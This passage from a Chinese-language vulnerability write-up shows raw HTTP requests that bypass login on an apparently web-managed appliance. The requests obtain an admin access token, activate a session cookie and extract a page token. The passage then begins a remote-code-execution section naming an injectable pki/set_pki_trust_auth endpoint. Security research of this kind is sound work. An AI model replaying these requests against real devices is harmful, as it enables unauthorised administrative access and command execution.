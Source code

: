 ```https
Priority: u=1, i
Connection: keep-alive

username=admin&lms_ip=127.0.0.1&lms_port=80&client_id=123&uuid=456
```

2. 使用获取的`access_token`让Cookie生效

```https
GET /auth/8f5c7ead63a92dda3c5a8c2854faed592d682ef5?token=8f5c7ead63a92dda3c5a8c2854faed592d682ef5 HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Cookie: __s_sessionid__=cei44sqaq2ok0gnni1rkpej6r2
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Sec-Ch-Ua-Mobile: ?0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://xxx.xxx.xxx.xxx:xxxx/login.html?lang=zh_cn
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Priority: u=0, i
Connection: keep-alive
```

3. 然后通过访问根路径来获取我们的Token,当我们携带有效的Cookie访问时会返回Token,这样我们就能够去访问后台的api接口了。

```html
    <meta id="token" name="__hash__" content="XXXXXXXXX" />
```

### 后台RCE

后台的RCE,挑了一个没有过滤和其他影响的，所以我们快速来看一下吧。

回到上面生成的登录json数据,其他的后台接口都会使用差不多的逻辑,比如我们注入的接口,包括我们在请求包中看到的其他接口都是类似的

```json
{
    "head":{
        "module":"pki",
        "function":"set_pki_trust_auth"
    },
    "body":{
        "pki_auth_cp":{
            "name":"",
            "crlfile":""
        }
    }
}
```

请求路径是/data.html,可以在路由规则中找到相应的处理文件ApiController.class.php
